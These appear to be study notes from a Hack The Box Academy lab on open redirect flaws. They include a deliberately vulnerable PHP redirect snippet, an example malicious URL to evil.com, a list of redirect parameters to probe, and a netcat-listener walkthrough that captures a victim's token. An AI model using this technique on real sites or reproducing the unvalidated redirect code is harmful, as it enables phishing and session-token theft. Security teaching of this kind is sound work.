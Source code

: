 ```yaml
---
sticker: emoji//1f512
---
```

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim. As you can imagine, this is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points. From an attacker's perspective, an open redirect vulnerability can prove extremely useful during the initial access phase since it can lead victims to attacker-controlled web pages through a page that they trust.

Let us take a look at some code.

```php
$red = $_GET['url'];
header("Location: " . $red);
```

```php
$red = $_GET['url'];
```

In the line of code above, a variable called _red_ is defined that gets its value from a parameter called _url_. _$_GET_ is a PHP superglobal variable that enables us to access the _url_ parameter value.

```php
header("Location: " . $red);
```

The Location response header indicates the URL to redirect a page to. The line of code above sets the location to the value of _red_, without any validation. We are facing an Open Redirect vulnerability here.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`

```ad-important
- ?url=
- ?link=
- ?redirect=
- ?redirecturl=
- ?redirect_uri=
- ?return=
- ?return_to=
- ?returnurl=
- ?go=
- ?goto=
- ?exit=
- ?exitpage=
- ?fromurl=
- ?fromuri=
- ?redirect_to=
- ?next=
- ?newurl=
- ?redir=
```

---

## Open Redirect Example

Navigate to `oredirect.htb.net`. You will come across a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

![image](https://academy.hackthebox.com/storage/modules/153/72.png)

Let us test if we can control the site where the _redirect_uri_ parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).

We can test that as follows.

First, let us set up a Netcat listener.

```shell-session
smoothment@htb[/htb]$ nc -lvnp 1337
```

Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request captured also includes the token!

![image](https://academy.hackthebox.com/storage/modules/153/71.png)

Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.

The following section will provide some prevention advice related to the covered vulnerabilities.

# Question
---


![](cybersecurity/images/Pasted%2520image%252020250219131152.png)

